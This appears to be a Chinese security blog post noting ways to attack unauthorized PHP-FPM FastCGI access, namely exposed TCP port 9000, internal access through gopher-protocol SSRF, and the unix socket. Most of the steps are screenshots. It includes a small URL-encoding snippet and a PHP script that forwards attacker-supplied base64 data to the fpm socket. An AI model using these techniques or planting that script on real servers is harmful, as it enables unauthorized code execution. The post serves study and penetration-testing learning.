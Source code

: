 ```yaml
---
layout:     post
title:      PHP-FPM Fastcgi 未授权访问漏洞
subtitle:   简单记录一下几种攻击方法
date:       2020-06-13
author:     BY Diego
header-img: https://blog-1300884845.cos.ap-shanghai.myqcloud.com/background/PHP-FPM.jpg
catalog: true
tags:
    - 命令注入
    - PHP
---
```


# 一、PHP-FPM 两种模式

**php-fpm 有两种模式，一种是基于tcp 另一种是基于unix套接字，tcp模式会启动9000端口 而unix套接字模式是基于fpm.sock文件**


**tcp模式下配置文件**

fpm 配置文件
`/etc/php/7.4/fpm/pool.d/www.conf`
![tvbEYn.png](https://s1.ax1x.com/2020/06/13/tvbEYn.png)

nginx 配置文件
`/etc/nginx/sites-enabled/default`
![tvbAFs.png](https://s1.ax1x.com/2020/06/13/tvbAFs.png)

效果如下会开启9000端口
![tvb6pt.png](https://s1.ax1x.com/2020/06/13/tvb6pt.png)
**unix模式下配置文件**

fpm 配置文件
`/etc/php/7.4/fpm/pool.d/www.conf`
![tvH1RP.png](https://s1.ax1x.com/2020/06/13/tvH1RP.png)

nginx 配置文件
`/etc/nginx/sites-enabled/default`
![tvHlGt.png](https://s1.ax1x.com/2020/06/13/tvHlGt.png)

![tvqzqS.png](https://s1.ax1x.com/2020/06/13/tvqzqS.png)

# 二、攻击

具体原理参考其他文章，个人简单记录攻击方法

## ① Fastcgi暴露在外网

**tcp模式下的9000端口暴露外网**

直接利用poc 进行攻击，前提知道某php脚本的绝对路径，一般有php环境的都会自带php文件，根据实际选一个
![tjc98s.png](https://s1.ax1x.com/2020/06/13/tjc98s.png)

效果如下
![tjcPvq.png](https://s1.ax1x.com/2020/06/13/tjcPvq.png)


## ② Fastcgi在内网

**tcp模式下的9000端口在内网**

利用**gopher协议** 进行ssrf

可以本地先搭建个环境，直接用vulhub也行，用上面的脚本进行流量抓取
![tjcC2n.png](https://s1.ax1x.com/2020/06/13/tjcC2n.png)
跟踪一下流
![tjcpCj.png](https://s1.ax1x.com/2020/06/13/tjcpCj.png)
把发送数据转化成原始数据
![tj6z5Q.png](https://s1.ax1x.com/2020/06/13/tj6z5Q.png)

url编一下码
```python
data = ""
a = [ data[x:x+2] for x in range(0,len(data),2) ]
"%".join(a)
```
![tjcFK0.png](https://s1.ax1x.com/2020/06/13/tjcFK0.png)

然后利用curl 模拟一下
![tjW8ld.png](https://s1.ax1x.com/2020/06/13/tjW8ld.png)

或者直接利用工具自动生成payload
![tjWG6A.png](https://s1.ax1x.com/2020/06/13/tjWG6A.png)

![tjW3SH.png](https://s1.ax1x.com/2020/06/13/tjW3SH.png)


## ③ unix套接字攻击

使用的是unix套接字，因此不会开放9000端口，但同样需要存在php文件

需要在服务器端执行如下代码
```php
<?php
$sock=stream_socket_client('unix:///run/php/php7.3-fpm.sock');
fputs($sock, base64_decode($_POST['A']));
var_dump(fread($sock, 4096));
?>
```
可以通过工具生成，然后截取`_`以后的部分，url解码之后转base64
![tjWG6A.png](https://s1.ax1x.com/2020/06/13/tjWG6A.png)


也可跟ssrf相同方法 获得原始数据直接转base64

![tvXBKP.png](https://s1.ax1x.com/2020/06/13/tvXBKP.png)

# 三、参考

[PHP 连接方式&攻击PHP-FPM&*CTF echohub WP](https://evoa.me/index.php/archives/52/#toc-%E6%94%BB%E5%87%BB%E5%A5%97%E6%8E%A5%E5%AD%97)

[浅析php-fpm的攻击方式](https://xz.aliyun.com/t/5598#toc-8)

[Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写](https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html)
